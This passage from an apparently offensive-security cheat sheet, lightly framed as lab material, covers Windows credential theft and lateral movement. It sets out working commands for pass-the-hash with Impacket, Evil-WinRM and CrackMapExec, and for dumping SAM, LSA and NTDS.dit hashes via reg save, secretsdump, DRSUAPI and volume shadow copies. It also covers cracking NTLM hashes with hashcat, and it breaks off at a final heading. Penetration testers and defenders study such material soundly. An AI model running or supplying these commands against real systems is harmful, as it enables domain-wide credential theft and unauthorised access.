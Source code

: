 ### F) Pass-the-Hash (lateral movement without cracking)
Using Impacket:
```
psexec.py -hashes :<NTHASH> DOMAIN/Administrator@10.10.10.20
wmiexec.py -hashes :<NTHASH> DOMAIN/Administrator@10.10.10.20
```

Using Evil-WinRM (PowerShell Remoting):
```
evil-winrm -i 10.10.10.20 -u Administrator -H <NTHASH>
```

Using CrackMapExec:
```
crackmapexec smb 10.10.10.0/24 -u Administrator -H <NTHASH> -x "whoami"
```

## Practical tips
- Run as Administrator. Verify with:
  - `whoami /priv` and `whoami /groups`
- File locations:
  - SAM: C:\Windows\System32\config\SAM
  - SYSTEM: C:\Windows\System32\config\SYSTEM
  - SECURITY: C:\Windows\System32\config\SECURITY
  - NTDS.dit (DC): C:\Windows\NTDS\NTDS.dit
- LM often appears as AAD3B435B51404EEAAD3B435B51404EE (empty LM). Focus on NT hash.
- RID 500 = built-in Administrator. Pay attention to that account’s hash.
- For DCs, prefer DRSUAPI (`-just-dc`) or IFM/VSS offline methods. Directly copying NTDS.dit while online will fail.
- secretsdump output is directly consumable by hashcat/john if you strip username:RIDs/etc as needed; or pass whole lines with `--username` where supported.
- If you already have a TGT, Impacket can use Kerberos: add `-k` (ensure DNS/realm set).
- Clean up artifacts (C:\temp, shadow copies) after testing, if allowed by the lab.
- Some EDRs block LSASS access; procdump and Mimikatz are noisy. The SAM/NTDS workflows via secretsdump are often more reliable in labs.

## Minimal cheat sheet (one-screen flow)
- Local SAM dump:
```
reg save HKLM\SAM C:\temp\SAM.save
reg save HKLM\SYSTEM C:\temp\SYSTEM.save
reg save HKLM\SECURITY C:\temp\SECURITY.save
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```
- Remote SAM/LSA dump:
```
secretsdump.py Administrator:'Passw0rd!'@10.10.10.10
secretsdump.py -hashes :<NTHASH> Administrator@10.10.10.10
```
- Domain (DRSUAPI):
```
secretsdump.py -just-dc -just-dc-ntlm 'DOMAIN/Administrator:Passw0rd!'@dc01
```
- Domain (offline via VSS on DC):
```
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SYSTEM C:\temp\SYSTEM.save
secretsdump.py -ntds NTDS.dit -system SYSTEM.save LOCAL
```
- Crack NTLM:
```
hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --username
```
- Pass-the-Hash: